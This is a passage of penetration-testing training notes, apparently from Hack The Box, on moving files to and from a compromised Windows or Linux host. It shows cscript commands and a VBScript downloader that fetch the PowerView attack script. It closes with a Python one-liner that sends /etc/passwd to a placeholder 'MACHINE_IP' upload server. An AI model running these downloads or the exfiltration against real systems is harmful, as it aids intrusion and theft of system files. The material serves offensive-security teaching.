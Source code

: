 We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

#### Download a File Using JavaScript and cscript.exe

  Download a File Using JavaScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


### VBScript
make a file calles wget.vbs

Code: vbscript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

#### Download a File Using VBScript and cscript.exe

  Download a File Using VBScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```


If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).


`python3 -m uploadserver`

## uploading a File using a python one-liner

```
python3 -c 'import requests;requests.post("http://MACHINE_IP:8000/upload",files={"files":open("/etc/passwd","rb")})")'
```
Let's divide this one-liner into multiple lines to understand each piece better.

